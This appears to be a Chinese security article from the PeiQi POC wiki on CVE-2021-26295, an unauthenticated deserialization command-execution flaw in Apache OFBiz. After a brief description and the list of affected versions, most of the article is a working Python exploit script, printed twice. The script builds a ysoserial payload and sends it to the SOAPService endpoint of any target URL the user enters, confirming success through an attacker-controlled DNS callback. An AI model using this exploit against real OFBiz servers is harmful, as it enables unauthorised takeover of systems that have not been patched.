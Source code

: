 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/XT2P6vB8e2pDp3_Dulfzhw)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**一****：漏洞描述🐑**

OFBiz 是基于 Java 的 Web 框架，包括实体引擎，服务引擎和基于小部件的 UI。

近日，Apache OFBiz 官方发布安全更新。Apache OFBiz 存在 RMI 反序列化前台命令执行，未经身份验证的攻击者可以使用此漏洞来成功接管 Apache OFBiz，建议相关用户尽快测试漏洞修复的版本并及时升级。

**二:  漏洞影响🐇**

Apache OFBiz < 17.12.06

**三:  漏洞复现🐋**

**Docker 安装环境**

```
下载地址 http://peiqi.tech/shentou/CVE-2021-26295.zip
POC参考了网上公开的几位师傅的脚本
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4o8KooMCRwtxgX6n5FPjMYRYteCnicCiayEzdAWecDAS3Uznd17IVjCu4QRGCxfibCuckUhtD1OhhQQ/640?wx_fmt=png)

**使用 POC 验证 Dnslog 响应**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el4o8KooMCRwtxgX6n5FPjMYkso7FSD2xAJetDAiblNicuibAQEnZQ82v5dQeVheibDKdib2WyKSbgiatUPQ/640?wx_fmt=png)

 ****四:  漏洞 POC🦉****

```
import requests
import sys
import sys
import subprocess
import binascii
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: Apache OFBiz                                            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mDnslog      >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def trans(s):
    return "%s" % ''.join('%.2x' % x for x in s)

def POC_1(target_url, Dnslog):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', "URLDNS", Dnslog], stdout=subprocess.PIPE)
    data = popen.stdout.read()
    hex_data = trans(data)
    headers = {
        'Content-Type': 'text/xml'
    }
    post_data = '''<?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><peiqi:clearAllEntityCaches xmlns:peiqi="http://ofbiz.apache.org/service/"><peiqi:cus-obj>%s</peiqi:cus-obj></peiqi:clearAllEntityCaches></soapenv:Body></soapenv:Envelope>''' % hex_data
    vuln_url = target_url + "/webtools/control/SOAPService"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=post_data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/webtools/control/SOAPService..... \033[0m".format(target_url))
        if response.status_code == 200:
            print("\033[36m[o] 请检查 Dnslog 响应\n \033[0m")
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Dnslog = str(input("\033[35mDnslog >>> \033[0m"))
    POC_1(target_url, Dnslog)
```

```
import requests
import sys
import sys
import subprocess
import binascii
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: Apache OFBiz                                            \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mDnslog      >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')
def trans(s):
    return "%s" % ''.join('%.2x' % x for x in s)
def POC_1(target_url, Dnslog):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', "URLDNS", Dnslog], stdout=subprocess.PIPE)
    data = popen.stdout.read()
    hex_data = trans(data)
    headers = {
        'Content-Type': 'text/xml'
    }
    post_data = '''<?xml version='1.0' encoding='UTF-8'?><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><peiqi:clearAllEntityCaches xmlns:peiqi="http://ofbiz.apache.org/service/"><peiqi:cus-obj>%s</peiqi:cus-obj></peiqi:clearAllEntityCaches></soapenv:Body></soapenv:Envelope>''' % hex_data
    vuln_url = target_url + "/webtools/control/SOAPService"
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.post(url=vuln_url, data=post_data, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 {}/webtools/control/SOAPService..... \033[0m".format(target_url))
        if response.status_code == 200:
            print("\033[36m[o] 请检查 Dnslog 响应\n \033[0m")
        else:
            print("\033[31m[x] 请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m")
if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    Dnslog = str(input("\033[35mDnslog >>> \033[0m"))
    POC_1(target_url, Dnslog)
```

 ****五:  关于文库🦉****

**在线文库：**

**http://wiki.peiqi.tech**

**Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

最后
--

> 下面就是文库的公众号啦，更新的文章都会在第一时间推送在交流群和公众号
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**文库接收文库中未收录的漏洞投稿啦，一起建设文库啦~  
**